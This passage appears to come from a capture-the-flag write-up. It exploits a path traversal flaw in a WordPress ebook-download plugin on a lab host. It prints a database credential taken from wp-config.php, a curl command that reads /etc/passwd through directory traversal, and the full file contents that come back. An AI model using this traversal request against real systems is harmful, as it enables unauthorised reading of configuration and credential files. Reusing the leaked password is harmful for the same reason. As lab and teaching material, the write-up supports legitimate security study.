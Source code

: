 ```php
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
<script>window.close()</script>
```
{: file="content/access/wp-config.txt"}

We can see that the `wp-config.php` file is being displayed and that we have some credentials, presumably for the database, on the target machine:

```text
Wordpress -> wordpressuser -> MQYBJSaD#DxG6qbm
```
{: file="credentials/access/credentials.txt"}

Now, we will go back a few more directories and we will try to download the `/etc/passwd`{: .filepath} file:

```bash
curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
```

```text
../../../../../../etc/passwd../../../../../../etc/passwd../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>
```
{: file="content/access/etc-passwd.txt"}
